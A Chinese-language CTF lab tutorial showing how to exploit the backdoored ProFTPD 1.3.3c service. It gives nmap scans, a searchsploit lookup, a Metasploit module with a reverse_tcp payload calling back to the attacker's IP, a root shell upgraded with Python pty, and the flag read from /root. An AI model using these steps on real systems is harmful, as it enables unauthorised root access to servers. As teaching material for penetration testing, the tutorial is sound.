







# 网络安全入门教程：P31：6.7：CTF夺旗-FTP服务后门利用 🚩

在本节课中，我们将学习在CTF比赛中，如何利用FTP服务的已知漏洞获取目标主机的`root`权限并取得`flag`值。我们将从信息收集开始，逐步演示漏洞发现、利用以及最终权限提升的全过程。

## FTP服务简介

上一节我们介绍了服务安全的基本概念，本节中我们来看看FTP服务。FTP是文件传输协议的英文简称，中文简称为文件协议。它用于在Internet上控制文件的双向传输。FTP也是一个应用程序，基于不同操作系统有不同的FTP服务实现，但所有应用程序都遵守同一种协议来传输文件。

在FTP的使用中，用户经常遇到两个概念：下载和上传。下载文件就是从远程主机拷贝文件到自己的计算机中。上传文件是指将文件从自己的计算机拷贝到远程计算机上。用互联网术语来说，用户可以通过客户机程序从远程主机上传或下载文件。由此可知，FTP就是文件传输的规定或法则。

## 实验环境搭建

了解了FTP的基本概念后，我们需要搭建实验环境。本次实验的攻击机采用Kali Linux，其IP地址是`192.168.1.105`。靶机使用Ubuntu系统，其IP地址是`192.168.1.100`。



## 信息收集与目标探测

我们获得了实验环境，该如何操作呢？我们的目标很明确：获取靶机上的`flag`值，取得靶机的对应权限。因此，第一步是探测靶机上开放的服务及其版本。我们将使用`Nmap`工具进行探测。

以下是使用`Nmap`扫描服务版本的命令：
```bash
nmap -sV 192.168.1.100
```

执行该命令后，`Nmap`会向靶机发送数据包并分析响应，最终输出靶机开放的服务和版本信息。

除了使用`-sV`参数，我们还可以使用快速扫描模式，它能获取更全面的信息，包括服务版本、操作系统版本和路由信息等。

以下是快速扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.100
```
*   `-T4`：使用最快速度进行扫描。
*   `-A`：启用所有扫描模块。
*   `-v`：输出详细的探测信息。

## 漏洞分析与发现

我们已经使用`Nmap`扫描到靶机开放的服务。接下来，我们需要分析扫描结果，挖掘其中可以利用的信息，并查找相关漏洞。

分析扫描结果，我们发现靶机开放了21、22和80端口。其中21端口运行着FTP服务，这正是我们今天的目标。我们发现了FTP软件的敏感信息：`ProFTPD`及其具体版本号。

发现潜在漏洞后，我们需要查找该版本软件是否存在已知漏洞。我们将使用`searchsploit`工具进行搜索。



以下是搜索漏洞的命令：
```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示，存在一个远程代码执行漏洞，该漏洞源于源代码中的一个后门。同时，该漏洞已被集成到Metasploit渗透测试框架中。

## 利用Metasploit进行漏洞利用



为了方便利用，我们将使用Metasploit框架中集成的漏洞利用模块。首先，启动`msfconsole`进入Metasploit控制台。

在`msfconsole`中，搜索针对该FTP版本的漏洞利用模块：
```bash
search ProFTPD 1.3.3c
```
找到对应的漏洞利用模块（`exploit`）后，使用`use`命令加载它。

接下来，查看该`exploit`可用的攻击载荷（`payload`）：
```bash
show payloads
```
我们选择使用`reverse_tcp`这个载荷。然后，查看需要设置哪些参数：
```bash
show options
```
我们需要设置两个关键参数：
1.  `RHOST`：靶机的IP地址（`192.168.1.100`）。
2.  `LHOST`：监听主机的IP地址（即Kali攻击机的IP `192.168.1.105`）。





使用`set`命令进行设置：
```bash
set RHOST 192.168.1.100
set LHOST 192.168.1.105
```
设置完成后，执行漏洞利用命令：
```bash
exploit
```
如果利用成功，我们将获得一个远程Shell会话。在Shell中执行`id`命令，可以确认我们已经获得了`root`权限。

## 权限维持与Flag获取

成功获得`root`权限后，我们获得的Shell可能功能不完整。为了获得一个功能更全的终端，我们可以使用Python的`pty`模块。

在获得的Shell中执行以下命令：
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```
执行后，我们将得到一个更友好的`bash`终端。



在CTF比赛中，最终目标是找到`flag`。通常，`flag`文件会存放在系统的根目录（`/`）或`/root`目录下。



我们切换到`/root`目录并列出文件：
```bash
cd /root
ls -alh
```
发现`flag`文件后，使用`cat`命令查看其内容：
```bash
cat flag
```
获取到`flag`值后，即可提交得分。

## 课程总结


本节课中我们一起学习了针对FTP服务的完整渗透测试流程。对于开放了FTP、SSH、Telnet等服务的系统，可以尝试使用`searchsploit`搜索对应服务版本的漏洞。如果存在已知漏洞，可以直接利用现成的攻击代码（`exploit`）来获取主机访问权限。在渗透测试中，需要关注系统开放的每一个端口和服务，它们都可能成为攻击的入口点，而不仅仅局限于Web攻击面。通过本课的学习，你应该掌握了从信息收集到漏洞利用，最终获取`flag`的基本方法。